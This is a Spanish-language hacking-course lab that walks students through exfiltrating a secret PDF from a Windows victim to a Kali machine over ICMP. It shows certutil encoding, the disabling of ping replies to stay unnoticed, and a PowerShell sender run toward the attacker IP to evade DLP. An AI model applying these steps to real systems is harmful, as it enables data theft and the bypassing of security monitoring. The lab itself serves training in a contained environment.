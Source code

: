 # Exfiltrar información sensible evadiendo el sistema DLP.

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Win 11***.

Las organizaciones suelen desplegar sistemas ***DLP***(Data Loss Prevention) en los perimetrales. Su objetivo es detectar cuando alguien intenta sacar del perímetro de la organización algún archivo sensible. 

Generalmente se envían por correo o se suben a repositorios en el Cloud (GSuite, O365, etc) por medio de conexiones ***HTTPS***. Por esta razón, se suele ***inspeccionar el tráfico SSL*** en los firewalls, porque de no ser así, los sistemas ***DLP*** no podrían ver lo que se está transmitiendo.

Pues bien, en este laboratorio aprenderemos a exfiltrar información a través del protocolo ***ICMP***, que generalmente no es inspeccionado, al menos desde el punto de vista del ***DLP***.

La ejecución de scripts maliciosos de PowerShell viene siendo bien detectada por las herramientas de seguridad, como el ***antivirus*** o el ***IDS***.

## Ejercicio 1: Comprobar si la víctima puede usar ICMP.

Asegúrate que en la máquina ***Win 11*** tienes clonado el repo de Github con los archivos del curso. Si no es así o no lo tienes claro, mira el ***Ejercicio 11: Clonado del repositorio de GitHub.*** del ***lab-00.md***.

También debemos asegurarnos de que se permite la ejecución de scripts de ***PowerShell***. Abrimos una terminal de ***PowerShell*** como ***ADMINISTRADOR***. En ellas ejecutamos.
```
Set-ExecutionPolicy -ExecutionPolicy RemoteSigned
```

Cerramos la terminal de administrador de ***PowerShell***.

En este escenario, el equipo ***Víctima*** (***Win 11***) está bajo el control del actor de la amenaza. En este mismo equipo también se encuentra el documento secreto que se desea exfiltrar.

Para conseguirlo vamos a enviar el archivo desde el equipo de la víctima al equipo de ataque (***Kali***) usando el protocolo ***ICMP***.

Lo primero que debemos comprobar es si la víctima puede enviar paquetes ***ICMP***.
Nota: En la realidad, la víctima debería poder hacer ping hacia Internet, donde en una IP Pública se ubicará un servidor de ICMP con el que se va a comunicar. Por temas legales, nos limitamos al entorno de laboratorio, siendo la máquina ***Kali*** el destino de la exfiltración.

En ***Win 11*** abrimos una terminal de ***PowerShell*** y escribimos.
```
ping 192.168.20.9
```

## Ejercicio 2: Crear en servidor ICMP en la máquina de ataque.

Asegúrate que en la máquina ***Kali*** tienes clonado el repo de Github con los archivos del curso. Si no es así o no lo tienes claro, mira el ***Ejercicio 11: Clonado del repositorio de GitHub.*** del ***lab-00.md***.

En la máquina ***Kali*** vamos a levantar un ***servidor ICMP*** mediante un script de ***Python***. Estudiémoslo.
```
nano ~/eHacking_LABS/50/icmp_server.py
```

Vamos a deshabilitar las repuestas de ping en ***Kali***, puesto que el truco consiste en mandar paquetes ICMP desde la víctima, la máquina de ***Kali*** respondería a cada uno de ellos, y no queremos llamar la atención del perimetral.
```
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

Ejecutamos el servidor ***ICMP***. En la terminal escribimos.
```
sudo python ~/eHacking_LABS/50/icmp_server.py
```

## Ejercicio 3: Codificar el documento secreto y enviarlo.

Para ponérselo más difícil al sistema ***DPM*** vamos a codificar el documento en la máquina víctima (recordemos que el actor de la amenaza tiene su control). Para ello usaremos la herramienta ***CertUtil***.

En la máquina de ***Win 11***, en la terminal de ***PowerShell*** escribimos.
```
cd C:\Users\antonio\eHacking_LABS\50

certutil -encode TopSecret.pdf TopSecret.txt
```

Podemos ver el documento codificado.
```
cat TopSecret.txt
```

Visualizamos el script de ***PowerShell*** que va a enviar el archivo.
```
code ICMPSender.ps1
```

Las líneas más importantes son:
* *18:* IP de la máquina de ***Kali*** que está ejecutando el servidor ***ICMP***.
* *26:* Archivo a exfiltrar codificado con ***CertUtil***.

El código trocea el archivo en bloques de ***1472*** que es el máximo que puede llevar en la carga los paquetes ***ICMP***.

Cerramos ***Visual Studio Code*** y ejecutamos el script.
```
.\ICMPSender.ps1
```

## Ejercicio 4: Comprobar a exfiltración.

El máquina ***Kali*** debemos tener descargado el ***archivoExfiltrado.txt***. Aún necesita postprocesado porque recordemos que ha sido codificado con ***CertUtil*** y hay que retirar la cabecera y el pie.
```
cd ~/eHacking/50

sudo nano archivoExfiltrado.txt
```

Hay que ***eliminar*** la línea que se muestra en la imagen.

![Begin Certificate](../img/lab-50-B/202209102223.png)

Luego pulsamos ***CTRL+W*** y escribimos en el buscador lo siguiente.
```
END CERTIFICATE
```

Eliminamos el pie, tal y como señala la imagen.

![End Certificate](../img/lab-50-B/202209102227.png)

Guardamos con ***CTRL+X***, ***Y***. Antes de pulsar ***ENTER*** nos fijamos que el archivo está en formato ***DOS***. Tendrémos que convertirlo a ***Linux***.

![DOS Format](../img/lab-50-B/202209102231.png)

Pulsamos ***ENTER*** y en la terminal escribimos el siguiente comando.
```
sudo dos2unix archivoExfiltrado.txt
```

Por último lo descodificamos desde ***Base64*** (que es lo que hizo ***CertUtil***)
```
base64 -d archivoExfiltrado.txt > archivoExfiltrado.pdf
```

Ya solo queda ver el resultado.
```
open archivoExfiltrado.pdf
```

Para finalizar no olvidemos volver a habilitar la respuesta de ***ICMP***.
```
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=0
```











